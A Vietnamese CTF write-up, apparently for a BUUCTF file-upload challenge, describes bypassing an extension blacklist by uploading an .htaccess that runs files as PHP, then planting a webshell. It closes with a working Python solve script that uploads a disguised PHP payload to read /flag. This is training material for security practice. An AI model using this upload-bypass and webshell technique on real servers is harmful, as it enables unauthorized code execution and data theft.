 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/53f2aaf2-cac8-426a-a3b6-4b4c3ff8426a)

Thử upload Trojan rồi dùng burpsuite để bắt package.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/fb908882-c036-4607-bdb6-b45264deeb2a)

Kết quả là bị filter đi rôi, mình sẽ thử nhưng cách thông thường mình hay làm - mình sẽ thử đổi Content-Type thành `image/jpeg`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/09e2446f-67f8-4e3a-9330-33af7b4d8b0c)

Vẫn bị filter nhưng lần này ra kết quả khác.Mình thử đổi extension file thành `.abc` để xem bài này thuộc dạng blacklist hay ko

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b7c37e4c-9fd4-4dec-a2ca-e04302a3898c)

Kết quả vẫn trả về như lúc nãy,nên bài này có blacklist filter.Bây giờ mình sẽ ghi đè qua việc upload file `.htacccess`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1b311df2-3cef-44d9-b18b-6eb9e47d8345)

Upload thành công,bây giờ các file có đuôi là hack sẽ được execute dưới dạng php.Bây giờ chỉ cần upload file Trojan rồi sau đó dùng antsword để đọc flag thôi

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/431bb1f2-dbc1-437c-b064-f64aebf2b2f4)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/f7024129-6a42-4721-befb-b8e76cae9072)

```solve.py
import requests
url = "http://eb860b1b-3bd1-47a3-8087-45e2cfda262c.node5.buuoj.cn:81/"
session = requests.session()
htaccess = {'uploaded': ('.htaccess', "SetHandler application/x-httpd-php", 'image/jpeg')}
res_hta = session.post(url, files=htaccess)

files = {'uploaded': ('123.jpg', "<script language=\"php\">echo file_get_contents(\"/flag\");</script>", 'image/jpeg')}
res_jpg = session.post(url, files=files)

res_shell = session.post(url + res_jpg.text[-69:-22], data = {'a':'echo file_get_contents(\'/flag\');'})

print(res_shell.text)
```
